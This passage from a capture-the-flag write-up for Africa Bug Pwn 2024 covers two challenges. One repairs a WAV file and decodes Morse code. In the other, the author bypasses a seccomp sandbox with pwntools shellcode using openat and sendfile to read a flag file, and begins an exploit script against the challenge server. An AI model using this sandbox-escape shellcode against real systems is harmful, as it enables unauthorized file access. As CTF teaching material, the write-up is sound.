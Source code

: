 ![](/images/Africa_Bug_Pwn_2024_Writeups/1_symphony_hex.png)

However, the file is still not fixed yet, I download a sample WAV file to use for comparison, and we can see that some bytes(highlighted) are missing in our file. We can also add them manually in the area indicated by the arrow.

![](/images/Africa_Bug_Pwn_2024_Writeups/1_symphony_xxd.png)

Cross-checking again, the file appears to be fine. Now all that is left is to convert the hex values into bytes and write them to a file.

![](/images/Africa_Bug_Pwn_2024_Writeups/1_symphony_xxd_fix.png)

I first removed the spaces between the hex values and used xxd to write the bytes to a file. Checking the filetype, we can see that the file is now valid.

![](/images/Africa_Bug_Pwn_2024_Writeups/1_symphony_riff.png)

Listening to the wav recording, i recognized it to be morse code , to decode the message, I use the `morsecode.world` site  to get the flag.

![](/images/Africa_Bug_Pwn_2024_Writeups/1_symphony_morse.png)



### Universe

Opening the binary in Ghidra, we see that the program creates a mapped region with `mmap` and marks it as `rwx`. The program also calls a function `FUN_00101208` before accepting input (`0x1000 bytes`) from the user one at a time and stores it in the mapped region. Once done, the program then executes the content in the mapped region as shellcode.

![](/images/Africa_Bug_Pwn_2024_Writeups/1_universe_ghidra.png)

Checking the  `FUN_00101208` , we can see that it setups `seccomp` rules to limit what syscalls are called. To view the allowed/disallowed rules, I used `seccomp-tools`

![](/images/Africa_Bug_Pwn_2024_Writeups/1_universe_ghidra_seccomp.png)

![](/images/Africa_Bug_Pwn_2024_Writeups/1_universe_seccomp.png)

From the input above, we can see that syscalls such as`open,clone,fork,vfork,execve,creat,execveat` are restricted and therefore we need to find a way to read the flag without any of these syscalls. To bypass the checks, I used the `openat` and `sendfile` syscalls as follows

```python
shellcode = shellcraft.openat(-100, "/flag.txt",0) # Open the target file and return the fd(3)
shellcode += shellcraft.sendfile(1, 3, 0x0, 4000) #  Copy the fd(3) to stdout(1) 
shellcode=asm(shellcode)
```

With this information, we can now build an exploit. We also need to remember that the program takes our input one byte at a time, so we have to create a loop to send each byte in our shellcode one by one
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.update(arch="amd64",os="linux")	
filename = './universe'
e = elf = ELF(filename)
if args.REMOTE or args.remote:
		target=remote("challenge.bugpwn.com",1004)
else:
		target=process(filename)

target.recvuntil(b'What do you think of the universe?\n')
```